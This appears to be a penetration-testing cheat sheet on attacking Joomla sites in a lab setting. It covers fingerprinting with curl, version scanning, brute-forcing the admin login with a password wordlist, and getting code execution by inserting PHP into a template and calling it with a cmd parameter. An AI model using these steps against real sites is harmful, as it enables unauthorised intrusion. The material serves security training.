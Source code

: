 # Joomla

Open source CMS written in PHP with a MySQL backend.

### Discovery/Footprinting

Investigating page source code:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Joomla has a distinct Robots.txt:

```shell-session
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Checking the readme.txt:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

Checking JS files in media/system/js or administrator/manifests/files/joomla.xml:

```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
  <name>files_joomla</name>
  <author>Joomla! Project</author>
  <authorEmail>admin@joomla.org</authorEmail>
  <authorUrl>www.joomla.org</authorUrl>
  <copyright>(C) 2005 - 2019 Open Source Matters. All rights reserved</copyright>
  <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
  <version>3.9.4</version>
  <creationDate>March 2019</creationDate>
  
 <SNIP>
```

&#x20; You can also look for the install version in plugins/system/cache/cache.xml.

### Version Enumeration w/ DropeScan

{% embed url="https://github.com/SamJoan/droopescan" %}

```shell-session
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### JoomlaScan

{% embed url="https://github.com/drego85/JoomlaScan.git" %}

```shell-session
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

### Login Brute Force&#x20;

{% embed url="https://github.com/ajnik/joomla-bruteforce" %}

```
python3 joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin

chmod +x joomla-brute.py
./joomla-brute.py -u http://10.10.10.150 -w /usr/share/wordlist/rockyou.txt -usr admin
```

Default admin login portal is at http://\<URL>/administrator/index.php and the default username is admin.

### RCE via theme editor&#x20;

Similar to Wordpress, you can edit a page of a theme's PHP caaode to include malicious code and execute it by accessing the page through the browser or with curl.&#x20;

Configuration -> Templates -> Select Template -> input PHP code&#x20;

Excute PHP code:&#x20;

```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?cmd=id
```

### Leveraging known vulnerabilities&#x20;

The majority of critical vulnerabilities are typically for extensions. Core Joomla critical vulnerabilities are rare. Make sure to enumerate Joomla version as well as all extensions and look for vulnerabilities.&#x20;



a\
